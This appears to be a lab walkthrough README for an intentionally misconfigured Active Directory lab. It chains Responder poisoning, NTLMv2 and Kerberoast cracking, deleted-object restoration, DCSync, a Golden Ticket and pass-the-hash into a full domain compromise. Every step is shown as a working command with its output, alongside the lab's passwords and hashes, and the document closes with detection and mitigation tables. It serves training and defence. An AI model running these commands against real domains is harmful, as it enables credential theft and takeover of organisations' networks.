


# Lab 05: Responder → Kerberoast → DCSync → Domain Admin

## Overview

A basic corporate Active Directory environment with intentionally introduced misconfigurations.
Designed to practice **LLMNR/NBT-NS Poisoning**, **NTLMv2 cracking**, **deleted object restoration**, **Kerberoasting**, and **DCSync** — from a low-privileged user to **Domain Admin**.

## Topology

```
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│   DC01       │    │   VICTIM     │    │   Parrot     │
│ Win Server   │────│   Win 10     │────│   Parrot OS  │
│ 192.168.31.100│   │ 192.168.31.204│   │   DHCP       │
│ DC + AD      │    │   Client     │    │   Attacker   │
└──────────────┘    └──────────────┘    └──────────────┘
```

## Environment

| Component | Version |
|---|---|
| Domain Controller | Windows Server 2022 |
| Client | Windows 10 22H2 |
| Attacker | Parrot OS |
| Domain | `corp.local` |
| Subnet | `192.168.31.0/24` |

## Attack Chain

```
VICTIM (i.ivanov) → LLMNR broadcast → Responder → NTLMv2 hash
                  → hashcat -m 5600 → Password1
                  → evil-winrm as i.ivanov → user.txt
                  → i.ivanov → Helpdesk → Restore svc_legacy
                  → Kerberoast svc_legacy → Barcelona1
                  → DCSync → krbtgt hash
                  → Golden Ticket → Domain Admin
                  → system.txt + root.txt
```

## Accounts

| Name | Sam | Password | Group |
|---|---|---|---|
| Ivan Ivanov | i.ivanov | Password1 | Helpdesk, IT_Support, VPN_Users, Remote Management Users |
| Legacy Service | svc_legacy | Barcelona1 | Backup Operators |
| Administrator | Administrator | Zoloto08 | Domain Admins |

## Shares

| Share | Access |
|---|---|
| IT | IT_Support (Change) |
| Public | Domain Users (Read) |
| Scans | svc_scan (Full) |
| Sales | Sales_Users (Change) |

## Vulnerabilities

| # | Vulnerability | Where | MITRE |
|---|---|---|---|
| 1 | LLMNR/NBT-NS Poisoning | Network | T1557.001 |
| 2 | Weak Password | `i.ivanov` | T1110.002 |
| 3 | Reanimate Tombstones | `Helpdesk` | T1098 |
| 4 | Kerberoastable | `svc_legacy` (SPN) | T1558.003 |
| 5 | DCSync rights | `svc_legacy` | T1003.006 |
| 6 | Golden Ticket | `krbtgt` | T1558.001 |

## Attack Steps

### 1. LLMNR/NBT-NS Poisoning (Responder)

**Goal:** capture NTLMv2 hash of `i.ivanov` via LLMNR poisoning.

**Configure Responder:**

```bash
sudo nano /etc/responder/Responder.conf
# SMB = On, HTTP = Off, AuthProxy =
```

**Start Responder and wait:**

```bash
sudo responder -I wlx503eaaedeed5 -wv
```

**Wait for LLMNR broadcast from VICTIM:**

At some point, a user on VICTIM mistypes a share name (e.g., `\\fileserver\share`). Windows sends an LLMNR broadcast. Responder answers, and the user's NTLMv2 hash is captured.

**Captured hash:**

```
[SMB] NTLMv2-SSP Client   : 192.168.31.204
[SMB] NTLMv2-SSP Username : CORP\i.ivanov
[SMB] NTLMv2-SSP Hash     : i.ivanov::CORP:550252f367f55636:2E89401C56501F97F67476EBED8AE795:01010000...
```

**Result:** NTLMv2 hash captured.

### 2. Crack NTLMv2 (hashcat)

**Goal:** crack NTLMv2 hash to get `i.ivanov` password.

**Save hash:**

```bash
cat > /tmp/ntlmv2.txt << 'EOF'
i.ivanov::CORP:550252f367f55636:2E89401C56501F97F67476EBED8AE795:010100000000000000F935C43746DD01F15C07F3C61D051500000000020008004800430046004F0001001E00570049004E002D004D0034004C00520041004C0058004100520033004C0004003400570049004E002D004D0034004C00520041004C0058004100520033004C002E004800430046004F002E004C004F00430041004C00030014004800430046004F002E004C004F00430041004C00050014004800430046004F002E004C004F00430041004C000700080000F935C43746DD0106000400020000000800300030000000000000000000000000200000EA11FD9DE3DC518B7B8C178AFB4985F5DFFB67EDC0692E6413AE6367187070A10A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00330031002E003200300039000000000000000000
EOF
```

**Crack:**

```bash
hashcat -m 5600 /tmp/ntlmv2.txt /usr/share/wordlists/rockyou.txt
```

**Output:**

```
I.IVANOV::CORP:550252f367f55636:2e89401c56501f97f67476ebed8ae795:...:Password1
Status...........: Cracked
```

**Result:** `i.ivanov : Password1`

### 3. Verify Credentials

```bash
nxc smb 192.168.31.100 -u i.ivanov -p 'Password1'
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\i.ivanov:Password1
```


i.ivanov in Remote Management Users --> WinRm

### 4. Access DC01 via WinRM + Read user.txt

**Goal:** use `i.ivanov` credentials to access DC01 via WinRM and read the user flag.

**Prerequisite:** `i.ivanov` is a member of `Remote Management Users` (part of lab setup). Without this membership, WinRM access will fail with `Access Denied`.

**Login via evil-winrm:**

```bash
evil-winrm -i 192.168.31.100 -u i.ivanov -p 'Password1'
```

**Output:**

```
*Evil-WinRM* PS C:\Users\i.ivanov\Documents>
```

**Verify group membership:**

```powershell
whoami /groups | findstr "Helpdesk Remote"
```

**Output:**

```
CORP\Helpdesk                              Group    S-1-5-21-446035775-811873913-1701138034-1120    Mandatory group, Enabled by default, Enabled group
CORP\Remote Management Users               Group    S-1-5-21-446035775-811873913-1701138034-1121    Mandatory group, Enabled by default, Enabled group
```

**Read user flag:**

```powershell
type C:\Users\i.ivanov\Desktop\user.txt
```

**Output:**

```
CORP{user_flag_ivanov_2026}
```

**Meaning:** `i.ivanov` inherits `Helpdesk` permissions, including `Reanimate Tombstones` on the domain.

### 6. Enumerate Deleted Objects

**Goal:** find deleted users in AD.

**Via ldapsearch:**

```bash
ldapsearch -x -H ldap://192.168.31.100 \
  -D 'i.ivanov@corp.local' -w 'Password1' \
  -b "CN=Deleted Objects,DC=corp,DC=local" \
  -E '!1.2.840.113556.1.4.417' \
  '(&(objectClass=user)(isDeleted=TRUE))' \
  sAMAccountName distinguishedName objectGUID
```

**Output:**

```
# svc_legacy
dn: CN=svc_legacy\0ADEL:74aa7831-ac60-4c6c-bcf0-3c42b310baea,CN=Deleted Objects,DC=corp,DC=local
sAMAccountName: svc_legacy
objectGUID:: MXiqdGCsbEy88DxCsxC66g==
```

**Result:** `svc_legacy` found in Deleted Objects.

### 7. Restore svc_legacy (via evil-winrm as i.ivanov)

**Goal:** restore `svc_legacy` using `Helpdesk` permissions via WinRM.

**Prerequisites:**
- `i.ivanov` is a member of `Helpdesk`.
- `i.ivanov` is a member of `Remote Management Users`.
- `Helpdesk` has `Reanimate Tombstones` on the domain.
- `Helpdesk` has `FULL CONTROL` on `CN=Deleted Objects`.
- `Helpdesk` has `FULL CONTROL` on `OU=ServiceAccounts`.
- `Helpdesk` has `FULL CONTROL` on the deleted object itself.

**Check Reanimate Tombstones:**

```powershell
dsacls (Get-ADDomain).DistinguishedName | Select-String "Helpdesk"
```

**Output:**

```
Allow CORP\Helpdesk    Reanimate Tombstones
```

**Restore svc_legacy:**

```powershell
Restore-ADObject -Identity "74aa7831-ac60-4c6c-bcf0-3c42b310baea" -TargetPath "OU=ServiceAccounts,OU=Company,DC=corp,DC=local"
```

**Verify:**

```powershell
Get-ADUser svc_legacy -Properties ServicePrincipalNames | Select-Object Name, ServicePrincipalNames
```

**Output:**

```
Name         ServicePrincipalNames
----         --------------------
svc_legacy   {MSSQLSvc/legacy01.corp.local:1433}
```

**Result:** `svc_legacy` restored with SPN.

### 8. Kerberoast svc_legacy

**Goal:** obtain TGS hash of `svc_legacy` (SPN).

```bash
GetUserSPNs.py corp.local/i.ivanov:'Password1' -dc-ip 192.168.31.100 -request 
```

**Output:**

```
ServicePrincipalName              Name        MemberOf
--------------------------------  ----------  --------
MSSQLSvc/legacy01.corp.local:1433 svc_legacy  CN=Backup Operators,...
```

**Crack:**

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

**Output:**

```
$krb5tgs$23$*svc_legacy$CORP.LOCAL$...:Barcelona1
Status...........: Cracked
```

**Result:** `svc_legacy : Barcelona1`

### 9. DCSync (svc_legacy → krbtgt)

**Goal:** extract `krbtgt` hash via DCSync.



**DCSync:**

```bash
secretsdump.py corp.local/svc_legacy:'Barcelona1'@192.168.31.100 -just-dc-user krbtgt
```

**Output:**

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3b6c421806dafb492a3a26f87c55dc39:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:940207db99471b7cf1fc7db80a79a96b421765320c22b999fe85a06fccd371e4
krbtgt:aes128-cts-hmac-sha1-96:9a65b00b6c9ee151b2dcd4ae36036389
krbtgt:des-cbc-md5:4a688ff734dcf231
[*] Cleaning up...
```

**Result:** `krbtgt` hash = `3b6c421806dafb492a3a26f87c55dc39`

### 10. Golden Ticket

**Goal:** create Golden Ticket for `Administrator`.

```bash
ticketer.py -nthash 3b6c421806dafb492a3a26f87c55dc39 \
  -domain-sid S-1-5-21-446035775-811873913-1701138034 \
  -domain corp.local \
  Administrator
```

**Output:**

```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.local/Administrator
[*] Saving/Updating ticket in Administrator.ccache
```

**Load ticket:**

```bash
export KRB5CCNAME=Administrator.ccache
klist
```

**Output:**

```
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@CORP.LOCAL

Valid starting       Expires              Service principal
09/17/2026 00:57:29  09/14/2036 00:57:29  krbtgt/CORP.LOCAL@CORP.LOCAL
        renew until 09/14/2036 00:57:29
```

### 11. Domain Admin

**Goal:** use Golden Ticket to access DC01 and read system/root flags.

```bash
psexec.py corp.local/Administrator@DC01.corp.local -k -no-pass -dc-ip 192.168.31.100
```

**Output:**

```
[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file ...
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service ...
[*] Starting service .....
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Read flags:**

```cmd
type C:\Users\Administrator\Desktop\system.txt
type C:\root.txt
```

**Output:**

```
CORP{system_flag_admin_2026}
CORP{root_flag_domain_compromised}
```

**Result:** Domain Admin achieved.

### 12. Verify Domain Admin via Pass-the-Hash

**DCSync Administrator hash:**

```bash
secretsdump.py corp.local/svc_legacy:'Barcelona1'@192.168.31.100 -just-dc-user Administrator
```

**Output:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7b71bee7907489b8dea9a06bab7917b2:::
```

**Pass-the-Hash:**

```bash
evil-winrm -i 192.168.31.100 -u Administrator -H 7b71bee7907489b8dea9a06bab7917b2
```

**Output:**

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

**Result:** Pass-the-Hash works.

## Detection

| Attack | Event ID | Source |
|---|---|---|
| LLMNR Poisoning | — | Network (no AD event) |
| NTLMv2 Logon | 4624 (Logon Type 3, NTLM) | DC Security Log |
| Deleted Object Restore | 4662 (Directory Service Access) | DC Security Log |
| Kerberoast | 4769 (TGS request) | DC Security Log |
| DCSync | 4662 (Replicating Directory Changes) | DC Security Log |
| Golden Ticket | 4769 (Anomalous TGT) | DC Security Log |
| Pass-the-Hash | 4624 (Logon Type 3, NTLM) | DC Security Log |

**What to look for:**

- **4624** with NTLM authentication from unusual source.
- **4662** with `Reanimate Tombstones` or `Replicating Directory Changes`.
- **4769** with unusual SPN or 10-year lifetime.

## Mitigation

| Attack | Mitigation |
|---|---|
| LLMNR Poisoning | Disable LLMNR/NBT-NS via GPO |
| Weak Passwords | Strong password policy |
| Reanimate Tombstones | Audit `Helpdesk` permissions; least privilege |
| Kerberoast | Strong passwords for service accounts; use gMSA |
| DCSync | Audit `Replicating Directory Changes`; don't grant to service accounts |
| Golden Ticket | Rotate `krbtgt` twice; monitor anomalous TGT lifetime |
| Pass-the-Hash | Disable NTLM; use Kerberos; Protected Users |

## References

- [MITRE ATT&CK](https://attack.mitre.org/)
- [HackTricks — AD Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Impacket](https://github.com/fortra/impacket)
- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)

## Status

Complete — chain from `i.ivanov` to **Domain Admin** via Responder, WinRM, deleted object restore, Kerberoast, DCSync, and Golden Ticket.
